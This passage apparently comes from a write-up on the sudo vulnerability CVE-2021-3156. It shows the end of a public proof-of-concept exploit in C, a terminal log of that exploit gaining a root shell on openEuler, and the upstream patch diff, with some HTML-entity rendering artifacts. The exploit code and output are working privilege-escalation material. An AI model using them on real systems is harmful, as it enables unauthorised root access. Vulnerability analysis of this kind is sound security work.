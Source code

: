 ```

        i -= 1;
    `}`


    temp = calloc(lc_len + strlen(lc_names[i]) + 10, 1);
    strcpy(temp, lc_names[i]);
    strcpy(temp + strlen(lc_names[i]), "=XXXXXXXX");
    memset(temp+strlen(lc_names[i]) + 9, 'A'+i, lc_len);
    s_envp[envp_pos++] = temp;

    s_envp[envp_pos++] = NULL;

    printf("** pray for your rootshell.. **\n");

    execve(target-&gt;sudoedit_path, s_argv, s_envp);
    // execve(target-&gt;sudoedit_path, s_argv, NULL);
    return 0;
`}`
```

```
[normal@172 CVE-2021-3156_blasty]$ ./sudo-hax-me-a-sandwich 3

** CVE-2021-3156 PoC by blasty &lt;peter@haxx.in&gt;

using target: 'openEuler release 20.03 (LTS) - sudo 1.8.27, libc-2.28'
** pray for your rootshell.. **
[+] bl1ng bl1ng! We got it!
sh-5.0# exit
exit
```



## Patch

[patch 049ad90590be](https://www.sudo.ws/repos/sudo/rev/049ad90590be)

```
--- a/plugins/sudoers/sudoers.c    Sat Jan 23 08:43:59 2021 -0700
+++ b/plugins/sudoers/sudoers.c    Sat Jan 23 08:43:59 2021 -0700
@@ -547,7 +547,7 @@

     /* If run as root with SUDO_USER set, set sudo_user.pw to that user. */
     /* XXX - causes confusion when root is not listed in sudoers */
-    if (sudo_mode &amp; (MODE_RUN | MODE_EDIT) &amp;&amp; prev_user != NULL) `{`
+    if (ISSET(sudo_mode, MODE_RUN|MODE_EDIT) &amp;&amp; prev_user != NULL) `{`
     if (user_uid == 0 &amp;&amp; strcmp(prev_user, "root") != 0) `{`
         struct passwd *pw;

@@ -932,8 +932,8 @@
     if (user_cmnd == NULL)
     user_cmnd = NewArgv[0];

-    if (sudo_mode &amp; (MODE_RUN | MODE_EDIT | MODE_CHECK)) `{`
-    if (ISSET(sudo_mode, MODE_RUN | MODE_CHECK)) `{`
+    if (ISSET(sudo_mode, MODE_RUN|MODE_EDIT|MODE_CHECK)) `{`
+    if (!ISSET(sudo_mode, MODE_EDIT)) `{`
         const char *runchroot = user_runchroot;
         if (runchroot == NULL &amp;&amp; def_runchroot != NULL &amp;&amp;
             strcmp(def_runchroot, "*") != 0)
@@ -961,7 +961,8 @@
         sudo_warnx(U_("%s: %s"), __func__, U_("unable to allocate memory"));
         debug_return_int(NOT_FOUND_ERROR);
```